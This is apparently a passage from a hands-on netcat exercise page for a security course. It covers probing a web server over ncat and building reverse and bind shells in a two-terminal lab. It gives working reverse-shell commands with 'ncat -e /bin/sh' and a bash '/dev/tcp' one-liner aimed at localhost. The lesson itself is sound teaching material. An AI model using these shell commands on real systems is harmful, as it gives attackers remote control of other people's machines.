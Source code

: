     ```
    ```
    OS: Windows server (ISS draait niet op Linux)
    Environment: ASP.NET & PHP
    ```

4. We still haven't got the actual page, from the status code you got in the previous question, how can we retrieve this? See https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/302 for more information.
    ```console
    $ ncat --ssl scouts.be 443
    GET / HTTP/1.1
    Host: guiding-scouting.be
    [...]
    ```

### Reverse and bind shells shell
After you have gained access to someones machine, you like to keep exploiting that machine. There are 2 possible ways to do this with `netcat`:
- Reverse shells
- Bind shells

See https://www.infosecademy.com/netcat-reverse-shells/ for more information on the difference.

#### Reverse shells
When implementing a reverse shell, the attacking machine listens to a connection from the compromised victim machine. Open up 2 terminals: one is the attacker machine and the other the victim machine. Can you create a reverse shell? Even tough you don't see a prompt, you can execute bash commands in the attacker terminal. Try it out with commands like `cd`, `ls` and `cat`.

*Attacker*
```console
$ ncat -l -p 31337
```
1. If you are on a victim terminal, how can you connect to the above socket and give yourself as an attacker a shell on this node?

    *Target*
    ```console
    $ ncat -v localhost 31337 -e /bin/sh
    ```

2. What if the victim terminal doesn't have nmap installed? Can you open a reverse shell using bash on the victim terminal?
    ```
    TODO: nmap? Moet dit geen ncat zijn?
    ```
    ```console
    $ bash -i >& /dev/tcp/127.0.0.1/31337 0>&1
    ```
    
    

#### Bind shell
With a bind shell, the victim machine listens to a connection from the attacking machine. Again, open up 2 terminals: one is the attacker machine and the other the victim machine. Can you create a bind shell?
